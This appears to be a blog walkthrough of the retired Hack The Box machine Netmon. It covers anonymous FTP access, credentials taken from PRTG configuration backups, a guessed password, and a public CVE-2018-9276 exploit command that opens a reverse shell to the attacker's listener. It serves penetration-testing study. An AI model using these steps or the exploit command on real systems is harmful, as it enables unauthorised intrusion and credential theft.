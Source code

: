 ```yaml
---
title: "Netmon HTB Walkthrough: Exploiting Anonymous FTP and PRTG Network Monitor RCE for Full System Access"  
description: "Comprehensive walkthrough of the retired Hack The Box machine Netmon, detailing anonymous FTP enumeration, credential extraction from PRTG configuration files, exploiting CVE-2018-9276 for remote code execution, and achieving reverse shell with system privileges."  
pubDate: 'Jun 28 2025'  
heroImage: "../../assets/Hack-The-Box-logo.png"  
---
```


## Overview

Netmon is an easy Windows retired machine on Hack The Box running an outdated version of PRTG Network Monitor. This walkthrough covers how I used anonymous FTP access to gather information and extract credentials from configuration files, leveraged these credentials to exploit a known remote code execution vulnerability (CVE-2018-9276), and ultimately gained a reverse shell on the target to capture both user and root flags.

## Enumeration

Running an Nmap scan with default scripts (`-sC`) and version detection (`-sV`) reveals multiple open services, including FTP with **anonymous access**, and an HTTP service running **PRTG Network Monitor version 18.1.37.13946**. Windows RPC, NetBIOS, and SMB ports are also open, indicating a Windows-based host — likely **Windows Server 2008 R2–2012**.

![Pasted-image-20250627142134.png](../../assets/Pasted-image-20250627142134.png)  

### Exploring the PRTG Network Monitor Web Interface

Navigating to [http://10.10.10.152](http://10.10.10.152) shows the login page for PRTG Network Monitor.

The web server hosts PRTG Network Monitor, but without credentials, further access is blocked. Time to revisit FTP for additional clues.

![Pasted-image-20250627142618.png](../../assets/Pasted-image-20250627142618.png)  

## Foothold

### Anonymous FTP Access

Since FTP allows anonymous access, we reconnect to explore the file system in more depth and search for configuration files or credentials related to PRTG.

![Pasted-image-20250627142943.png](../../assets/Pasted-image-20250627142943.png)  

After logging into the FTP server anonymously, I began enumerating the directory structure. I first listed the contents of the root directory and identified several standard Windows folders such as `inetpub`, `Program Files`, `Users`, and `Windows`.

I navigated into the `Users` directory and found two subdirectories: `Administrator` and `Public`. Attempting to access `Administrator` returned an "Access is denied" error, but access to `Public` was successful.

Inside `Public`, I browsed to the `Desktop` folder, which contained a file named `user.txt` along with a couple of `.lnk` shortcuts related to PRTG. I downloaded the `user.txt` file to retrieve the user flag.

![Pasted-image-20250627143222.png](../../assets/Pasted-image-20250627143222.png)  

After retrieving the `user.txt` flag, I continued exploring the FTP server for more valuable files. I navigated into the `Paessler` directory and then into `PRTG Network Monitor`, where I found several subdirectories and configuration files.

Inside this directory, I successfully downloaded both the `PRTG Configuration.old.bak` and `PRTG Configuration.dat` files. These files typically contain stored credentials and other sensitive configuration data related to the PRTG Network Monitor.

![Pasted-image-20250627145157.png](../../assets/Pasted-image-20250627145157.png)  

After downloading the `PRTG Configuration.old.bak` file, I changed its extension to `.txt` in order to view its contents in a standard text editor. This revealed readable XML-style configuration data.

Within the file, I discovered a commented section containing the default login credentials for the PRTG web interface:

The username was noted as `prtgadmin` in a comment, and the password was shown as `PrTg@dmin2018` under the `<dbpassword>` tag.

![Pasted-image-20250627145112.png](../../assets/Pasted-image-20250627145112.png)  

I returned to the PRTG Network Monitor web interface and attempted to log in using the extracted credentials. However, the login failed, which likely indicates that the password has been changed from the default stored in the configuration file.

![Pasted-image-20250627145349.png](../../assets/Pasted-image-20250627145349.png)  


I then examined the current `PRTG Configuration.dat` file, hoping to find updated credentials. Inside, I located the username `prtgadmin`, but the password field was encrypted and stored as a hash or cipher text.

This suggests the password is no longer in plaintext and is protected, making it unusable without decryption or other exploitation methods.

![Pasted-image-20250627145547.png](../../assets/Pasted-image-20250627145547.png)  

Since the password in the current configuration file was encrypted or hashed rather than stored in plaintext, I opted to guess an updated version of the original password. Using `PrTg@dmin2019`, I was able to successfully log in to the PRTG Network Monitor web interface.

![Pasted-image-20250627151424.png](../../assets/Pasted-image-20250627151424.png)  

## Exploitation
After confirming the PRTG version as 18.1.37.13946, I researched known vulnerabilities and identified **CVE-2018-9276**. This vulnerability affects PRTG Network Monitor versions prior to 18.2.39 and allows operating system command injection through the sensor or notification management features.

**Important:** This vulnerability requires authenticated access with administrative privileges to the PRTG web console. Once authenticated, an attacker can send specially crafted parameters to execute arbitrary commands on the server.

The vulnerability is rated High (CVSS 7.2) and is included in CISA's Known Exploited Vulnerabilities Catalog, highlighting its relevance in real-world attacks.

I decided to test this publicly available exploit to gain further access.

Exploit: https://github.com/A1vinSmith/CVE-2018-9276

Using the extracted credentials, I ran the **CVE-2018-9276** exploit against the PRTG Network Monitor instance on port 80 with the following command:

`sudo python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.21 --lport 4444 --user prtgadmin --password PrTg@dmin2019`

The exploit successfully staged a payload and obtained a session as the prtgadmin user. The payload was uploaded to C:\Users\Public\tester.txt and executed via the PRTG notification feature.

I set up a listener on my attack machine, and shortly after triggering the exploit, I received an incoming connection on 10.10.14.21:4444, indicating successful code execution and shell access.
![Pasted-image-20250627153743.png](../../assets/Pasted-image-20250627153743.png)  

After running the exploit and setting up a listener on my machine, I successfully received a reverse shell connection from the target. Upon connecting, I verified that I had access to the `C:\Windows\System32` directory, confirming a shell with significant system privileges as the `prtgadmin` user on the Windows machine.

![Pasted-image-20250627153828.png](../../assets/Pasted-image-20250627153828.png)  


After gaining shell access, I navigated to the `C:\Users\Administrator\Desktop` directory and displayed the contents of `root.txt` by running:

`type C:\Users\Administrator\Desktop\root.txt`

This revealed the root flag, confirming full system compromise and successful privilege escalation.

![Pasted-image-20250627154045.png](../../assets/Pasted-image-20250627154045.png)

This box demonstrates the importance of proper credential management and patching critical vulnerabilities. By exploiting anonymous FTP misconfigurations, I accessed sensitive PRTG configuration files containing login credentials. Using these credentials, I exploited a known RCE vulnerability to gain remote shell access. Finally, I escalated privileges to retrieve the root flag, completing the challenge.

Netmon highlights common attack vectors against outdated software and poorly secured services, making it a valuable exercise in real-world penetration testing.




